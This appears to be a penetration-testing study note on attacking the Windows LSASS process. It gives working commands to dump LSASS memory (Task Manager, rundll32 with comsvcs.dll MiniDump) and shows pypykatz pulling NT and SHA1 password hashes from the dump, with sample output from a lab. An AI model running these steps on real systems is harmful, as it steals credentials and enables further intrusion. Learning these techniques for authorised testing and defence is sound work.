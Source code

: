 ```yaml
---
title: Attacking LSASS
draft: false
tags:
  - lsass-dmp
  - lsass
---
```

Upon initial logon, LSASS will:

- Cache credentials locally in memory
- Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
- Enforce security policies
- Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

## Dumping
### TaskManager

When with GUI:

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

lsass.DMP is saved in:

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```


### Dundll32.exe Conmsvcs.dll 

Faster and more accessible method compared to TaskManager method since it only requires CLI.

But it is diagnosed as malicious by most of modern anti-virus system. 

1. Look for process ID(PID) related assigned to lsass.exe

```cmd-session
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```

In powershell:

```powershell-session
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

2. Create lsass.dmp

```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

## Extract Creds

Once we have the dump transferred to attacker machine, there's a lot we can do. 

### Pypykatz

Mimikatz written in Python. 

Benefit: We can run it offline from our Linux based attacker machine. 

```shell-session
jadu101@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 

INFO:root:Parsing file /home/peter/Documents/lsass.dmp
FILE: ======== /home/peter/Documents/lsass.dmp =======
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```




